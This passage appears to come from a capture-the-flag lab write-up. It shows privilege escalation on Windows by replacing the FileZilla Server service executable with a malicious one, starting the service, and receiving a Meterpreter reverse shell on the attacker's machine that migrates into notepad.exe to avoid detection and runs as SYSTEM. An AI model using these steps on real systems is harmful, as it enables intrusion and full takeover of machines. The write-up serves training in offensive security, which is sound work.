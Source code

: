 _Check the last write time of the service executable to confirm the replacement._

`(dir 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe').LastWriteTime`:
```
Monday, August 12, 2024 10:55:02 AM
```

**Explanation:** Verifying the `LastWriteTime` ensures that the executable has been successfully replaced with the malicious version.

_Start the FileZilla Server service to trigger the malicious payload._

`services.msc` > `FileZilla Server FTP server` (right-click) > `Start`

**Explanation:** Starting the service executes the malicious `FileZilla Server.exe`, which then initiates the reverse shell connection back to the attacker's machine.

<span style="color: #e57373;">**Attacker machine**</span>.

_Confirm that the Meterpreter session has been successfully opened._

```
[*] Sending stage (176195 bytes) to 10.4.20.66
[*] Meterpreter session 1 opened (10.10.39.3:4444 -> 10.4.20.66:49835) at 2024-08-12 16:29:31 +0530 ←
[*] Session ID 1 (10.10.39.3:4444 -> 10.4.20.66:49835) processing InitialAutoRunScript 'post/windows/manage/migrate'
[*] Running module against PRIV-ESC
[*] Current server process: FileZilla Server.exe (2636)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4216
[+] Successfully migrated into process 4216
```

**Explanation:** The Meterpreter session is successfully opened and immediately migrates into a more stable process (`notepad.exe`) to ensure persistence and avoid detection.

_List active sessions and interact with the Meterpreter session._

`sessions`, `sessions -i`

_Verify the user context of the Meterpreter session._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Search for files containing the word "flag" to locate the target file._

`shell`, `where /r C:\ "*flag*"`:
```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk
C:\Users\Administrator\Downloads\flag.txt ←
```

**Explanation:** The `where` command is used to search the system for files containing "flag" in their name, which is typically the target file for CTF challenges.
